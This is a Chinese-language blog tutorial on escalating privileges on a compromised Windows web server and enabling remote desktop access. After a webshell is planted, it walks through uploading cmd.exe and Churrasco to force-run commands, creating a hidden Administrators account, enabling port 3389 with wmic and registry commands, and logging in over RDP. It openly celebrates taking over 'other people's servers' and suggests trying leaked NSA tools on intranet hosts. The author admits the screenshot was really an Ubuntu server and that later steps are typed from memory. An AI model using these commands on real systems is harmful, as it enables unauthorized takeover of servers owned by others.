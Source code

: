 ```yaml
---
title: Windows服务器提权和开启3389远程连接
date: 2017-04-20 22:41:19
categories: 技术
tags: 安全
---
```


有很多小白误以为上传了一句话木马用菜刀链接就等于拿到shell了,其实不然。

# 权限管理介绍 

系统为了都有有权限管理系统，根据权限高低来决定用户在这台机器上能做的事。

比如有的文件规定了低权限用户是无法读写的，而这些文件通常是我们想要获取的敏感文件。

有的文件夹是规定不能读写的，那么我们就不能上传任何到这个文件夹，也无法从这个文件夹里运行任何程序，所以我们连接上服务器都要找一个可读可写的文件夹来继续上传我们需要的程序，如开后门的程序。

一般的网站都存储在服务器权限比较低的文件夹里， 所以即使我们上传了WebShell，最多也只能够对网站所在的文件夹操作，而不能完整的控制整个服务器。所以我们以一个权限相当高的用户来访问该服务器。

Windows中以用户组来分配权限，每个用户组有不同的权限，其中最高权限用户组是Administrators组，拥有对整个系统进行操作system权限。每个用户组下可以创建多个用户。

在Win10以前的Windows系统版本中，可以通过 右键此电脑=》管理=》系统工具=》本地用户和组来查看用户组及用户组中的用户。

 ![img](https://pic4.zhimg.com/v2-eb8981064ab46a0bc03f31ee70a86f2b_b.png)

# 大马和菜刀

我试过各种大马，功能其实都大同小异，不过不知道是不是我使用的原因，里面的cmd并不怎么好用。大马里我个人觉得最有用的就是查看文件权限属性的功能，这个使我们在找后门上传点的时候是非常好用的，并且这个功能在菜刀里是没有的。

这种php大马可以在Perms项下看到文件的读写权限属性。  

![img](https://pic1.zhimg.com/v2-2fcc71a8ada61d4e72901ab183efe4ec_b.png)

而菜刀比较好的的就是比较适合人类查看的文件目录界面，和虚拟终端。所以通常将两者结合起来用。右键任意可执行文件打开虚拟终端。 

 ![img](https://pic2.zhimg.com/v2-18be9bbfd3f9c9b66d97b4a376774239_b.png)

# 巴西烤肉提权

创建系统用户的命令如下：

- 新建一个用户 

```
net user [username] [password] /add

```

-  添加到Administrators用户组

```
net localgroup Administrators [username] /add

```

- 激活用户

```
net user [username] /active:yes

```

由于一般网站被放在服务器中权限比较低的文件夹中，因此直接创建Administrator用户的命令是不被执行的。

巴西烤肉是一个非常强劲的程序，它可以无视拒绝强制执行cmd命令，经常被用到提权中。

我们通过菜刀将cmd.exe和巴西烤肉上传到网站文件夹中。

![img](https://pic2.zhimg.com/v2-0d4983673f80086b2a185b50d42e40d5_b.png)

然后右键cmd.exe打开虚拟终端，先将终端路径设置为我们自己上传的cmd.exe，再尝试直接创建用户，报错命令被拒绝执行。（其实这里是一个Ubuntu Linux服务器）

![img](https://pic1.zhimg.com/v2-7a965148c3cbc5a7bc19695203fac9e8_b.png)====================================================================== 

由于后来没找到Windows服务器的网站模板，因此下面就不带图了，过程全部手打还原，谅解

====================================================================== 

 先将终端路径设置为我们自己上传的cmd.exe

```
SETP ../../www/uploads/cmd.exe

```

 再用巴西烤肉强制执行命令。巴西烤肉语法：Churrasco.exe "your command"

```
Chu.exe "net user [username] [password] /add & net localgroup Administrators [username] /add"

```

若无报错，那么我们就已经成为系统管理员账户了。查看当前用户会发现我们创建的用户：

```
net user

```

至此，我们已经创建了超级权限的用户，已经可以对整个服务器进行操作了。但是在终端里操作总有些不方便，下面我们介绍一下拿下权限后如何远程连接进行桌面操作。

# 3389端口服务

远程桌面协议（RDP, Remote Desktop Protocol）是一个多通道（multi-channel）的协议，让用户（客户端或称“本地电脑”）连上提供微软终端机服务的电脑（服务器端或称“远程电脑”）。大部分的Windows都有客户端所需软件。服务端电脑方面，**默认听取送到TCP3389端口的数据**。【百度百科】

这是一种非常方便的对服务器的操作方式，一般的网站管理员都会开启3389端口远程桌面服务。而有的安全素养比较高的管理员则会选择将3389端口关闭，甚至开启防火墙禁止任何开启3389的操作。

*闲扯一下，最近Shadow Broker泄露的NSA的工具，内网里开3389的服务器一打一个准，有空的可以去玩玩。misterch0c/shadowbroker* 

 在无防火墙的情况下，我们可以用cmd命令来添加注册表开启3389端口，或者使用别人留下的工具。

-  cmd命令

将以下命令写入一个.bat文件，将其拖入服务器可读写目录执行，即可开启3389端口。

```
wmic /namespace:\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != “”) call setallowtsconnections 1
```

```
wmic /namespace:\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName =’RDP-Tcp’) call setuserauthenticationrequired 1
```

```
reg add “HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

针对win XP及win2003只需要第3条命令
针对win 7需要第1，2条命令
针对win 2012需要3条命令

- 写好的程序

```
Chu.exe "kai3389.exe"
```

就行了

*在有防火墙的情况下，需将防火墙先关闭，再用lcx.exe将3389映射到其他端口上，这个等我搞懂了再写。*

# RDP远程桌面连接

创建好用户，开启远程桌面功能，就可以用此用户远程登陆别人的服务器直接进行桌面操作，岂不是美滋滋。

Win+R 打开【运行】窗口，运行

```
mstsc /admin

```

用直接创建的用户名和密码登录，OK。
